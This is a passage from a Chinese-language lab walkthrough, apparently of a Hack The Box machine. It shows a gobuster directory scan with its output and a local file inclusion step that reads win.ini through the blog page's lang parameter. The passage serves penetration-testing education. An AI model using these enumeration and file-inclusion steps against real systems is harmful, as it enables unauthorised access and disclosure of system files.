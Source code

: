 
```shell
~ ./gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -t 20 -x php,html -u http://10.10.10.151/

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.151/
[+] Threads:        20
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php
[+] Timeout:        10s
===============================================================
2020/03/31 20:30:29 Starting gobuster
===============================================================
/Blog (Status: 301)
/Images (Status: 301)
/Index.php (Status: 200)
/blog (Status: 301)
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/js (Status: 301)
/user (Status: 301)
===============================================================
2020/03/31 21:19:35 Finished
===============================================================
```

通过枚举，发现/blog、/user等有用的信息：

![](https://p0.ssl.qhimg.com/t01384d344c9d495d50.png)

![](https://p1.ssl.qhimg.com/t01b53ae09d26b3fbee.png)

## 0x03 文件包含漏洞

**- 本地文件包含（Local File Inclusion）**

在检查blog页面时，发现`/blog?lang=***.php`，这种形式的GET请求，在参数处尝试文件包含漏洞是一个不错的选择：

![](https://p0.ssl.qhimg.com/t014ab237e08c01167c.png)

![](https://p1.ssl.qhimg.com/t01b32f21c83e2300ab.png)

尝试访问绝对路径下的`win.ini`信息：`http://10.10.10.151/blog?lang=/windows/win.ini`，成功读取到信息：

![](https://p5.ssl.qhimg.com/t013fb5a5fe6b8ea582.png)
